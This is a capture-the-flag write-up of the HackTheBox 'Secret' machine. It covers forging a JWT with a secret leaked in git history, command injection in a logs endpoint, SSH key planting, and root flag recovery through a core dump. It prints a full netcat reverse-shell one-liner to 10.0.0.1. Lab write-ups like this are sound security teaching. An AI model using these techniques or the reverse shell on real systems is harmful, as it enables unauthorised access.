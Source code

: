 # Secret HackTheBox Writeup
### Level: `Easy` | OS: `Linux`
![logo](1.png)

## Scanning
We run nmap on all ports with scripts and software versions.
![](2.png)

## Enumeration
We find the API documentation, we have to authenticate using a *JWT*.
![](3.png)

If we try to access without a token, we see that we do not have access to the resource.
![](4.png)

If we check the site, there is a link that allows us to download the code.

To get to the point, the file "*private.js*" shows the role and username of the administrator user of the application.
![](5.png)

Using the authentication example from the documentation above, we see that the user "*theadmin*" is registered with the e-mail address "*root@dasith.works*":
![](6.png)

We register a user.
![](7.png)

We decode the *JWT* and see the data it contains.
![](8.png)

We access the previous resource, but we still cannot access it because we are a user with a low privilege role.
![](9.png)

We continue with the enumeration, we identify a "*.git*" and we see that they have made some modification in the "*.env*" file.
![](10.png)

We retrieve the file and read its contents, we find the "*token_secret*". This token would allow us to modify our JWT and be able to make arbitrary modifications on it.
![](11.png)

We add the attribute *"role": "admin"* and change our user to "*theadmin*" in our cookie and authenticate, we check that now it works and we have access as the user "*theadmin*".
![](12.png)


## Exploitation
Reviewing the sections of the site, we see that the resource "*logs?file=*" is vulnerable to **Command Injection**:
![](13.png)

We can exploit this vulnerability to read the "*user.txt*" file.
![](14.png)

We use the following payload to gain access (remember to encode it in URL), put a **netcat** listening and send the request from **Burp**.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
![](15.png)

We list an uncommon setuid binary named "*/opt/count*". 

We see that the resource has the permissions of the root user.
![](16.png)

We launch **dirsearch**, we will list the file "*installer/subiquity-server-debug.log*", it contains the hashed credentials of the users used in the application.
![](17.png)

We tried to crack the hash of the user "*dasith*", but failed. So we will put our public key in the user's "*authorized_keys*" file and authenticate with our private key through the **SSH** service.
![](18.png)


## Privilege Escalation
Now we execute this statement to cause the crashes and to store in the report log the root flag
![](19.png)

We check the "*CoreDump*" file and see that the root flag is in it.
![](20.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)
